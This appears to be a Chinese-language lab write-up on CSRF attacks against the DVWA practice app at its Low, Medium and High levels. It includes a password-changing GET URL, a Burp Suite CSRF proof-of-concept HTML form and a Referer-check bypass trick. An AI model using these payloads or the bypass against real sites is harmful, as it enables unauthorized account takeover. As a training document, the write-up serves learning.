 ```html
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```

CSRF攻击并不需要被攻击者的具体cookie，而只需要保留cookie的登陆状态。既然参数是GET方式传递的，那么我们可以直接在URL链接中设置参数，如果用户用登陆过该网站的浏览器（服务器会验证cookie）打开这个链接，那么将直接把参数传递给服务器，因为服务器并没有防CSRF的措施，所以直接可以攻击成功，密码将被改为123456。到那时如果用户在没有登陆过这个网站的浏览器上打开这个链接，并不会更改密码，而是跳转到登录界面。因为服务器在接受访问时，首先还要验证用户的cookie，如果浏览器上并没有之前登录留下的cookie，那攻击也就无法奏效。

Burpsuite也自带了CSRF PoC功能，可以通过抓包伪造页面：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308101257237.png)

生成的页面源代码如下：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="123456" />
      <input type="hidden" name="password&#95;conf" value="123456" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

#### 3.1.2 DVWA-Medium

Medium的代码相比于low添加了基于stripos()函数的IP请求检测：

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
	// Get input
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];
```

stripos(a,b)返回字符串a在字符串b中出现的位置，当b不包含a时返回false.为绕过这一验证，需要在PoC页面重命名时以目标IP为用户名，这样才能保证REFERER和HOST字段满足函数的条件。

#### 3.1.3 DVWA-HIGH

类似题目:XSS-4.1.12 反射型XSS与CSP bypass

```php
if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {
	$data = json_decode(file_get_contents('php://input'), true);
	$request_type = "json";
	if (array_key_exists("HTTP_USER_TOKEN", $_SERVER) &&
		array_key_exists("password_new", $data) &&
		array_key_exists("password_conf", $data) &&
		array_key_exists("Change", $data)) {
		$token = $_SERVER['HTTP_USER_TOKEN'];
		$pass_new = $data["password_new"];
		$pass_conf = $data["password_conf"];
		$change = true;
	}
} else {
	if (array_key_exists("user_token", $_REQUEST) &&
		array_key_exists("password_new", $_REQUEST) &&
		array_key_exists("password_conf", $_REQUEST) &&
		array_key_exists("Change", $_REQUEST)) {
		$token = $_REQUEST["user_token"];
		$pass_new = $_REQUEST["password_new"];
		$pass_conf = $_REQUEST["password_conf"];
```